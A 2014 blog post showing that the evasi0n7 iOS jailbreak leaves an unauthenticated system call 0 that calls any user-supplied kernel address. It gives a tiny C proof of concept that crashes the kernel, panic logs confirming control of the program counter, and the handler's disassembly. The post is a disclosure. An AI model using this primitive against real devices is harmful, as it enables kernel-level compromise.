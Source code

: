 ```yaml
---
layout: post
title:  "Evading iOS Security"
date:   2014-01-12 01:30:00
categories: projects research
---
```


Here's some code:

{% highlight c %}
__attribute__((constructor)) void crash(void)
{
	syscall(0, 0x41414141, -1);
}
{% endhighlight %}

Here's what happens when you run it on a device using evasi0n7:
{% highlight bash %}
panic(cpu 0 caller 0x9dc204d7): sleh_abort: prefetch abort in kernel mode: fault_addr=0x41414140
r0:   0xffffffff  r1: 0x27dffdec  r2: 0x2bf0e9c4  r3: 0x2bf0e95c
r4:   0x41414141  r5: 0xa48782d4  r6: 0x81b6f594  r7: 0x8f5d3fa8
r8:   0x9df1d614  r9: 0x81b6f330 r10: 0x9df1db00 r11: 0x00000006
r12:  0x00000000  sp: 0x8f5d3f60  lr: 0x93dd7048  pc: 0x41414140
cpsr: 0x20000033 fsr: 0x00000005 far: 0x41414140
{% endhighlight %}

And here's what happens on an ARM64 device that also uses evasi0n7:
{% highlight bash %}
panic(cpu 0 caller 0xffffff800422194c): PC alignment exception from kernel. (saved state: 0xffffff8003a34640)
	  x0: 0x0000000037e50a70  x1:  0x0000000000000000  x2:  0x0000000100002f84  x3:  0x0000000000104e44
	  x4: 0x0000000000104e44  x5:  0x0000000000000000  x6:  0x0000000000000000  x7:  0xffffff8087057310
	  x8: 0xffffffffdeadbeef  x9:  0x000000000000000e  x10: 0xffffff8086f9a280  x11: 0x0000000000000000
	  x12: 0x0000000003000004 x13: 0x0000000000104dc0  x14: 0x0000000000002ff5  x15: 0x0000000037e50a84
	  x16: 0x0000000000000000 x17: 0x0000000000000000  x18: 0x0000000000000000  x19: 0xffffff8086f9a590
	  x20: 0xffffff8086ce4bd0 x21: 0xffffff8087057310  x22: 0xffffff80045ea3c8  x23: 0x0000000000000018
	  x24: 0xffffff8086f9a598 x25: 0x0000000000000000  x26: 0x0000000000000006  x27: 0x0000000000000000
	  x28: 0xffffff80045ea3c8 fp:  0xffffff8003a34a60  lr:  0xffffff8004362434  sp:  0xffffff8003a34990
	  pc:  0xffffffffdeadbeef cpsr: 0x60000304         esr: 0x8a000000          far: 0xffffffffdeadbeef
{% endhighlight %}

..And here's the system call handler for system call 0... (ARM32 of course!)
{% highlight bash %}
__text:00000000                 CODE32
__text:00000000                 STMFD           SP!, {R4-R7,LR}
__text:00000004                 MOV             R5, R2
__text:00000008                 MOV             R6, R1
__text:0000000C                 LDR             R0, =0x9E415A34
__text:00000010                 BLX             R0
__text:00000014                 LDR             R0, =0x9E41E160
__text:00000018                 BLX             R0
__text:0000001C                 LDR             R0, =0x9E415958
__text:00000020                 BLX             R0
__text:00000024                 LDR             R0, [R6]
__text:00000028                 CMP             R0, #0
__text:0000002C                 BEQ             locret_50
__text:00000030                 MOV             R4, R0
__text:00000034                 LDR             R0, [R6,#4]
__text:00000038                 LDR             R1, [R6,#8]
__text:0000003C                 LDR             R2, [R6,#0xC]
__text:00000040                 LDR             R3, [R6,#0x10]
__text:00000044                 BLX             R4
__text:00000048                 STR             R0, [R5]
__text:0000004C                 MOV             R0, #0
__text:00000050
__text:00000050 locret_50                               ; CODE XREF: __text:0000002Cj
__text:00000050                 LDMFD           SP!, {R4-R7,PC}
__text:00000050 ; ---------------------------------------------------------------------------
__text:00000054 off_54          DCD 0x9E415A34          ; DATA XREF: __text:0000000Cr
__text:00000058 off_58          DCD 0x9E41E160          ; DATA XREF: __text:00000014r
__text:0000005C off_5C          DCD 0x9E415958          ; DATA XREF: __text:0000001Cr
{% endhighlight %}

Jailbreaking ruins security and integrity. Enough said. Have a good day. 

(Oh, it also can be used by any user, including `mobile`. One can wonder if TaiG or such is using this as a
back door...)